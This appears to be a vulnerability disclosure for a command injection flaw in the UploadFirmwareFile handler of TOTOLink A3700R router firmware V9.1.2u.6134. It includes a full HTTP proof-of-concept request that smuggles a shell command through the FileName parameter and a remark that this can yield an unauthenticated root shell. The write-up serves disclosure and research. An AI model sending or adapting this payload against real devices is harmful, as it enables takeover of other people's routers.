



# TOTOLink A3700R V9.1.2u.6134_B20201202 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=69&ids=36

### Product Information

TOTOLink A3700R V9.1.2u.6134_B20201202 router, the latest version of simulation overview：



## Vulnerability details

TOTOLINK A3700R (V9.1.2u.6134_B20201202) was found to contain a command insertion vulnerability in UploadFirmwareFile.This vulnerability allows an attacker to execute arbitrary commands through the "FileName" parameter.



Var is passed directly into the dosystem function.


The dosystem function is finally found to be implemented in this file by string matching.


Reverse analysis found that the function was called directly through the system function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi?action=upload&UploadFirmwareFile HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 75
Origin: http://192.168.0.1
DNT: 1
Connection: close
Cookie: SESSION_ID=2:1658224702:2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache

{"FileName":";ps #","ContentLength":"1","topicurl":"UploadFirmwareFile"}
1
```



 The above figure shows the POC attack effect 


Finally, you can write exp to get a stable root shell without authorization.
